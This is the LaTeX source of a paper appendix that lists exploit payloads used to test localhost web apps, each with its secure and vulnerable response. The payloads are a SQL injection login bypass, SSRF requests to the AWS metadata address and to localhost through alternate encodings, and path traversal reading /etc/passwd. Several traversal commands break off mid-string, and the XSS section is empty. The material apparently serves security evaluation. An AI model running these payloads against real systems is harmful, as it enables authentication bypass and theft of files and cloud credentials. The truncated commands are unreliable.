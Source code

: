 \documentclass[conference,a4paper]{IEEEtran}
\begin{document}
\section{Exploit Payloads and Evidence}

\subsection{SQL Injection (Login)}
\begin{code}
curl -X POST http://localhost:5000/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin' OR '1'='1","password":"x"}'
# Secure:  401 {"message": "Invalid credentials"}
# Vulnerable: 200 {"token": "eyJhbG..."} (auth bypass)
\end{code}

\subsection{Cross-Site Scripting (Forum, 5 of 24 vectors)}

\subsection{SSRF (LinkPreview, 3 of 10 vectors)}
\begin{code}
# 1. AWS metadata
curl -X POST http://localhost:5000/preview \
  -d '{"url":"http://169.254.169.254/latest/meta-data/"}'
# 2. Hex IP bypass
  -d '{"url":"http://0x7f000001:5000/admin"}'
# 3. IPv6 localhost
  -d '{"url":"http://[::1]:5000/internal"}'
# Secure:  400 {"error": "URL not allowed"}
# Vulnerable: 200 with internal service response
\end{code}

\subsection{Path Traversal (FileSearch, 4 of 27 vectors)}
\begin{code}
# 1. Basic traversal
curl 'http://localhost:5000/files?path=../../etc/passwd'
# 2. URL-encoded
curl 'http://localhost:5000/files?path=%
# 3. Double encoding
curl 'http://localhost:5000/files?path=%
# 4. Null byte
curl 'http://localhost:5000/files?path=../../etc/passwd%
# Secure:  400 {"error": "Access denied"}
# Vulnerable: 200 root:x:0:0:root:/root:/bin/bash...
\end{code}
\end{document}
